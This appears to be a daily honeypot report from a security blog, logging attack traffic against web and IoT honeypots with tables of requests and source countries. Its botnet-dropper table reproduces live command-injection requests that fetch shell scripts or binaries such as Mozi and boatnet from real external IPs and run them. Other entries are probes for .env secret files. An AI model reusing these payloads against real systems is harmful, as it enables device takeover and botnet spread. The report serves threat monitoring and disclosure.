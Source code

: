 ```yaml
---
title: "Report: 2025-06-17 "
date: 2025-06-17
desciption: "Report: 2025-06-17" 
tags: [repport, daily]
---
```



# Daily Report: 2025-06-17 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 7 stage 1 IP address(es), linked to 7 dropper URL(s).  

There are 25 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1310 requests were recorded during the day, originating from 7 different countries, with a peak of 331 requests coming from SC.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Germany            |
| US               | Germany            |
| SG               | Germany            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
|:----------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 141.98.11.83    | GET /shell?cd+/tmp;wget+http://94.26.90.251/payload1.sh+-O-+|+sh HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| 45.135.194.34   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(killall+-9+mipsel+mpsl%3B%28wget+-O-+http%3A%2F%2F14.103.145.202%2Frondo.sh%7C%7Cbusybox+wget+-O-+http%3A%2F%2F14.103.145.202%2Frondo.sh%29+%7C+sh+-s+tplink%3B) HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| 144.172.100.214 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20boatnet.arm7%3B%20wget%20http%3A%2F%2F160.187.246.150%2Fhiddenbin%2Fboatnet.arm7%3B%20chmod%20777%20%2A%3B%20.%2Fboatnet.arm7%20tbk HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| 45.135.194.34   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(killall+-9+mipsel+mpsl%3B%28wget+-O-+http%3A%2F%2F14.103.145.202%2Frondo.sh%7C%7Cbusybox+wget+-O-+http%3A%2F%2F14.103.145.202%2Frondo.sh%29+%7C+sh+-s+tplink.8080%3B) HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 104.167.221.114 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=echo%20exec%3Bcd%20%2Ftmp%20%7C%7C%20cd%20%2Fvar%2Frun%20%7C%7C%20cd%20%2Fmnt%20%7C%7C%20cd%20%2Froot%20%7C%7C%20cd%20%2F%3B%20wget%20http%3A%2F%2F104.167.221.114%2Ftbkdvr.sh%3B%20chmod%20777%20tbkdvr.sh%3B%20sh%20tbkdvr.sh%3B%20tftp%20104.167.221.114%20-c%20get%20tbkdvr1.sh%3B%20chmod%20777%20tbkdvr1.sh%3B%20sh%20tbkdvr1.sh%3B%20tftp%20-r%20tbkdvr2.sh%20-g%20104.167.221.114%3B%20chmod%20777%20tbkdvr2.sh%3B%20sh%20tbkdvr2.sh%3B%20ftpget%20-v%20-u%20anonymous%20-p%20anonymous%20-P%2021%20104.167.221.114%20tbkdvr1.sh%20tbkdvr1.sh%3B%20sh%20tbkdvr1.sh%3B%20rm%20-rf%20tbkdvr.sh%20tbkdvr1.sh%20tbkdvr2.sh%20tbkdvr1.sh HTTP/1.1 |
| 87.121.84.34    | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget+http://31.57.63.48/x/tplink+-O-|sh) HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 42.227.242.197  | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                    |
|----:|----------------------:|:-----------------------------------------------------------|
|  84 |                     2 | GET /.env-hash HTTP/1.1                                    |
|  85 |                     2 | GET /.env-cert HTTP/1.1                                    |
|  86 |                     2 | GET /.env_mail HTTP/1.1                                    |
| 106 |                     2 | GET /.env-json HTTP/1.1                                    |
| 128 |                     1 | \x00\x0E8\xCB\x87\xEA\xDB7P\x8C\xC0\x00\x00\x00\x00\x00    |
| 152 |                     1 | GET /Nmap/folder/check1750123481 HTTP/1.1                  |
| 155 |                     1 | GET /NmapUpperCheck1750123481 HTTP/1.1                     |
| 180 |                     1 | GET /nmaplowercheck1750123481 HTTP/1.1                     |
| 185 |                     1 | GET /LWsF HTTP/1.1                                         |
| 215 |                     1 | GET /.env-snap HTTP/1.1                                    |
| 216 |                     1 | GET /.env_jobs HTTP/1.1                                    |
| 217 |                     1 | GET /.env_keys HTTP/1.1                                    |
| 218 |                     1 | GET /.env_logs HTTP/1.1                                    |
| 221 |                     1 | \x00\x0E8\x10\x8Bs\xE6q\x8BRv\x00\x00\x00\x00\x00          |
| 242 |                     1 | GET /.env.bak1 HTTP/1.1                                    |
| 243 |                     1 | GET /.env-saml HTTP/1.1                                    |
| 244 |                     1 | GET /.env-task HTTP/1.1                                    |
| 245 |                     1 | GET /.env.keys HTTP/1.1                                    |
| 252 |                     1 | GET /ru HTTP/1.1                                           |
| 271 |                     1 | GET /de/ HTTP/1.1                                          |
| 272 |                     1 | \x00\x0E8\xEE\xF2b\xB0\xDC\x14\x88\xD2\x00\x00\x00\x00\x00 |
| 293 |                     1 | GET /Odin/http/call1750152742 HTTP/1.1                     |
| 294 |                     1 | GET /OdinHttpCall1750152742 HTTP/1.1                       |
| 295 |                     1 | GET /odinhttpcall1750152742 HTTP/1.1                       |
| 366 |                     1 | \x00\x0E8&+1\xC7`i\x9B\xBD\x00\x00\x00\x00\x00             |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   331 | SC                 |
|  1 |                   240 | US                 |
|  2 |                    97 | GB                 |
|  3 |                    79 | DE                 |
|  4 |                    74 | NL                 |
|  5 |                    57 | FR                 |
|  6 |                    56 | SE                 |
|  7 |                    55 | JP                 |
|  8 |                    50 | KR                 |
|  9 |                    47 | BG                 |
| 10 |                    22 | CN                 |
| 11 |                    18 | CH                 |
| 12 |                    17 | LT                 |
| 13 |                    16 | CA                 |
| 14 |                    13 | UA                 |
| 15 |                    13 | PL                 |
| 16 |                    12 | EE                 |
| 17 |                    11 | HU                 |
| 18 |                    11 | AU                 |
| 19 |                    10 | NG                 |
| 20 |                    10 | SG                 |
| 21 |                     9 | RO                 |
| 22 |                     6 | BE                 |
| 23 |                     6 | PT                 |
| 24 |                     6 | IN                 |
| 25 |                     4 | TR                 |
| 26 |                     4 | IL                 |
| 27 |                     4 | MD                 |
| 28 |                     3 | GH                 |
| 29 |                     3 | IT                 |
| 30 |                     3 | AO                 |
| 31 |                     3 | VN                 |
| 32 |                     3 | KZ                 |
| 33 |                     2 | MY                 |
| 34 |                     2 | BR                 |
| 35 |                     2 | ZA                 |
| 36 |                     2 | IE                 |
| 37 |                     2 | RU                 |
| 38 |                     1 | ID                 |
| 39 |                     1 | HK                 |
| 40 |                     1 | MC                 |
| 41 |                     1 | FI                 |
| 42 |                     1 | BD                 |
| 43 |                     1 | ZW                 |
| 44 |                     1 | CZ                 |
